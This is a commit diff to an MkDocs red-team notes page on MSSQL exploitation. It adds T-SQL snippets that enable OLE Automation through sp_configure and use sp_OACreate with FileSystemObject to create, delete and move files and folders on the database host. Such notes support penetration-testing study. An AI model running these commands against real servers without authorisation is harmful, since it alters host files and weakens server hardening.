

Before and after one commit to C1ph3rX13/C1ph3rX13.github.io, an MkDocs documentation site: the page built from docs/ReadTeam/Windows/Databases/MSSQL Exploit.md, in a window 1280 px wide and 1400 px high, scrolled down 3611 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update MSSQL Exploit.md

````diff
--- a/docs/ReadTeam/Windows/Databases/MSSQL Exploit.md
+++ b/docs/ReadTeam/Windows/Databases/MSSQL Exploit.md
@@ -168,6 +168,10 @@
 
 ### Filesystem
 
+[Objects | Visual Basic for Applications](https://learn.microsoft.com/en-us/office/vba/language/reference/objects-visual-basic-for-applications)
+
+[Objects | FileSystemObject object](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/filesystemobject-object)
+
 ```sql
 -- Explore
 EXEC xp_dirtree 'C:\Users',1,1
@@ -182,6 +186,57 @@
 ```
 
 #### 文件操作
+
+```sql
+-- 创建文件系统对象
+DECLARE @fs INT, @file INT
+EXEC sp_OACreate 'Scripting.FileSystemObject', @fs OUT
+
+-- 检查文件是否存在
+DECLARE @exists BIT
+EXEC sp_OAMethod @fs, 'FileExists', @exists OUT, 'C:\test.txt'
+SELECT @exists AS FileExists
+
+-- 创建文本文件
+EXEC sp_OAMethod @fs, 'CreateTextFile', @file OUT, 'C:\test.txt', 2, True
+EXEC sp_OAMethod @file, 'WriteLine', NULL, 'This is file content'
+EXEC sp_OAMethod @file, 'Close'
+
+-- 删除文件
+EXEC sp_OAMethod @fs, 'DeleteFile', NULL, 'C:\test.txt'
+
+-- 清理对象
+EXEC sp_OADestroy @file
+EXEC sp_OADestroy @fs
+```
+
+#### 文件夹操作
+
+```sql
+-- 启用 OLE Automation
+EXEC sp_configure 'show advanced options', 1;
+RECONFIGURE;
+EXEC sp_configure 'Ole Automation Procedures', 1;
+RECONFIGURE;
+
+-- 创建目录，不能一次性创建多个文件夹
+DECLARE @fs INT, @r INT
+EXEC sp_OACreate 'Scripting.FileSystemObject', @fs OUT
+EXEC sp_OAMethod @fs, 'CreateFolder', @r OUT, 'C:\NewFolder'
+EXEC sp_OADestroy @fs
+
+-- 删除文件夹
+DECLARE @fs INT
+EXEC sp_OACreate 'Scripting.FileSystemObject', @fs OUT
+EXEC sp_OAMethod @fs, 'DeleteFolder', NULL, 'C:\NewFolder'
+EXEC sp_OADestroy @fs
+
+-- 移动文件夹
+DECLARE @fs INT
+EXEC sp_OACreate 'Scripting.FileSystemObject', @fs OUT
+EXEC sp_OAMethod @fs, 'MoveFolder', NULL, 'C:\OldFolder', 'C:\NewLocation\NewFolderName'
+EXEC sp_OADestroy @fs
+```
 
 ### Registry
 
````
